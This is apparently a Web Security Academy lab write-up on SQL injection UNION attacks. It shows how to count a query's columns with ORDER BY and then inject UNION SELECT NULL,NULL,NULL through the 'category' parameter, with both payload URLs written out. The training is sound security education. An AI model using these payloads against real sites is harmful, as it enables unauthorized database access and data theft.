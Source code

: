 # Union Attacks > Determining the Number of Columns

### Objectives

- Determine the number of columns returned by the server using either `ORDER BY [NUM]` or `UNION SELECT [NULL,...]-- -` methods
- Once the number of columns is known, return an additional row containing a NULL values

### Solution

The `category` query parameter is vulnerable to a SQL Injection UNION attack. To determine the number of columns being returned in the response, use the following
SQL payload:

```
https://<burp-subdomain>.web-security-academy.net/filter?category=Accessories' ORDER BY 1-- -
```

Increment the count by 1 until you get an internal server error - specifying `ORDER BY 4-- -`, returns the error. So we now know the number of columns being
return is **3**.

To solve the challenge, use the following request to solve the challenge (notice we are using 3 NULLs because we determine each row returned in the response
consists of 3 columns):

```
https://<burp-subdomain>.web-security-academy.net/filter?category=Accessories' UNION SELECT NULL,NULL,NULL-- -
```
